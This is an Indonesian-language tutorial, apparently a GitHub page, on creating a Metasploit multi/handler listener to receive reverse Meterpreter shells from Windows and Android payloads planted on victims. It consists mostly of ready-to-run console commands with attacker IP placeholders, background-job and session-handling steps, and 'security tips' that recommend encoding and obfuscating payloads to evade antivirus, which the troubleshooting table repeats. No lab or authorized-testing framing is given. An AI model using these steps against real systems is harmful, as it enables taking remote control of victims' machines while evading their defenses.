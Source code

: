 # Membuat Listener

## A. Apa itu Listener

`Listener` adalah komponen di Metasploit yang berfungsi untuk menerima koneksi balik (reverse connection) dari payload yang sudah ditanamkan ke target. Di Metasploit terdapat modul listener yaitu:

```
exploit/multi/handler
```

Modul ini tidak mengeksploitasi, tapi hanya mendengarkan dan menangani koneksi masuk dari payload yang berhasil dijalankan di sistem korban.

## B. Langkah-Langkah Membuat Listener

1. Jalankan Metasploit Framework:

   ```
   msfconsole
   ```

2. Pilih Modul multi/handler:

   ```
   use exploit/multi/handler
   ```

3. Tentukan Payload yang Sesuai

   Contoh jika payload yang dikirim adalah `windows/meterpreter/reverse_tcp`:

   ```
   set PAYLOAD windows/meterpreter/reverse_tcp

   ```

4. Atur IP dan Port Listener:

   ```
   set LHOST 192.168.1.100
   set LPORT 4444
   ```

   Keterangan:
   - **LHOST**: IP Attacker (listener)
   - **LPORT**: Port tempat menerima koneksi

5. Jalankan Listener:

   ```
   run
   ```

   Atau bisa juga:

   ```
   exploit
   ```

## C. Contoh Lengkap: Listener untuk Payload Windows:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT 4444
exploit
```

## D. Contoh Listener untuk Payload Android:

```
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT 4444
exploit
```

## E. Mode Background Listener

Kalau ingin listener tetap berjalan di background:

```
exploit -j -z
```

Keterangan:
- `-j`: Jalankan sebagai job (background)
- `-z`: Tidak membuka sesi interaktif secara langsung

Melihat job listener aktif:

```
jobs
```

Menghentikan job tertentu:

```
jobs -k <ID>
```

Menghentikan semua job:

```
jobs -K
```


## F. Interaksi dengan Session Meterpreter

Saat target berhasil terhubung, session akan muncul:

```
sessions
```

Untuk masuk ke sesi:

```
sessions -i <ID>
```

## G. Tips Keamanan

- Gunakan IP yang benar-benar bisa diakses korban (`public IP/VPN/local` sesuai skenario).
- Jangan gunakan port yang umum terblokir firewall.
- Gunakan encoding dan obfuscation pada payload untuk menghindari AV.

## H. Troubleshooting

| Masalah | Penyebab Umum | Solusi |
|:--:|:--:|:--:|
| Tidak ada koneksi masuk | `IP/Port` salah | Pastikan `LHOST/LPORT` sesuai|
| Payload terdeteksi AV | Payload tidak diencode | Gunakan `-e` encoder di `msfvenom` |
| Listener tidak merespons | Port diblokir | Ganti port atau periksa firewall |
